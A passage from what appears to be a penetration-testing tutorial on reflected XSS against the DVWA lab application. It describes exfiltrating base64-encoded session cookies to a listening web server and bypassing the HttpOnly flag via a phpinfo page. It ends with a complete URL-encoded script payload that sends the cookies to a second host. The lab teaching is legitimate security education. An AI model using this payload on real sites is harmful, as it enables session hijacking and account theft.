 and we click on *Submit*, we can see that a GET request has been printed in the web server, like in the following screenshot

![](/assets/images/2022-11-12-pentesting-article-1/user-cookies-exfiltrated-2.png)

The value of the parameter *data* is the *base64* encoded form of the user cookies (and a lot of HTML code but not relevant), so decoding it with the burpsuite decoder we can get the user cookies

![](/assets/images/2022-11-12-pentesting-article-1/user-cookies-exfiltrated-decoded-2.png)

As you can see, all the cookies has been displayed, so we have bypassed the *HttpOnly* flag of the *PHPSESSID* cookie. Therefore, anyone who clicks on the URL 

{% include codeHeader.html %}
```html
http://192.168.240.128/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Evar+req+%3D+new+XMLHttpRequest%28%29%3Breq.onload%3DreqListener%3Bvar+url%3D%22http%3A%2F%2F192.168.240.128%2Fdvwa%2Fphpinfo%22%3Breq.withCredentials%3Dtrue%3Breq.open%28%22GET%22%2Curl%2Cfalse%29%3Breq.send%28%29%3Bfunction+reqListener%28%29+%7Bvar+req2%3Dnew+XMLHttpRequest%28%29%3Bconst+sess%3Dthis.responseText.substring%28this.responseText.indexOf%28%22HTTP_COOKIE%22%29%29%3Breq2.open%28%22GET%22%2C%22http%3A%2F%2F192.168.240.129%2F%3Fdata%3D%22%2Bbtoa%28sess%29%2Cfalse%29%3Breq2.send%28%29%7D%3B%3C%2Fscript%3E#
```
